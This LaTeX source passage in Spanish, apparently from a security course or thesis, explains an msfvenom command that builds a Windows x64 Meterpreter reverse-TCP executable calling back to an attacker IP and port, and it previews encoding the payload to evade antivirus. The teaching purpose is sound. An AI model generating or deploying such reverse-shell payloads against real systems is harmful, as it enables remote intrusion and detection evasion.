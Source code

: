 \documentclass[12pt]{article}
\newcommand{\newpar} {
    \vskip 1cm
}
\begin{document}
                Con esto en mente debemos alterar la salida que nos ofrece \texttt{MSFVENOM} a través de sus opciones para generer el \textit{payload} deseado. Con el fin de ocultar la complejidad de usar la herramienta directamente hemos escrito un script de bash (la shell por defecto de Kali y otras muchas distribuciones) que se encarga de esto por nosotros. El script en cuestión es \texttt{gen_payload.sh}. No obstante, adjuntamos una invocación de ejemplo de MSFVENOM para comentar qué efecto tiene cada una de sus opciones:

                \begin{center}
                    \texttt{msfvenom -a x64 --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.2 LPORT=5000 -f exe -o win_pyld.exe}
                \end{center}
                

                Con lo anterior estamos generando el \textit{payload} \texttt{win_pyld.exe}. La arquitectura y plataforma de este programa vienen dadas por las opciones \texttt{-a} y \texttt{--platform} respectivamente. Consultando los valores pasados vemos que se trata de una máquina que ejecuta la versión de 64 bits de Windows. Asimismo, el tipo de \textit{payload} seleccionado es \texttt{windows/x64/meterpreter/reverse_tcp}. En la siguiente sección comentaremos el funcionamiento de la misma. Dado el \textit{payload} escogido debemos pasar dos opciones que se introducirán en el código del mismo. En este caso son la IP (\texttt{LHOST}) y el puerto (\texttt{LPORT}) de la máquina atacante. En secciones subsiguientes estudiaremos por qué son necesarias estas opciones. Finalmente especificamos el formato del \textit{payload} generado con la opción \texttt{-f}. Dado que el formato estándar de los archivos ejecutables en Windows. Este archivo generado tendrá, ademas del programa propiamente dicho, las instrucciones necesarias para que el loader de Windows lo cargue correctamente.

                \newpar

                Como ya comentamos anteriormente, uno de los mecanismos más comunes para detectar malware es la comparación de archivos sospechosos con firmas almacenadas en bases de datos que se han asociado a algún archivo malicioso. Con la orden anterior hemos generado el \textit{payload} sin intentar ocultarlo de ninguna manera. Más adelante comentaremos como, a traves de un proceso denominado codificación, podemos intentar ocultar este programa malicioso para así inhibir o al menos dificultar el trabajo de los antivirus.
\end{document}
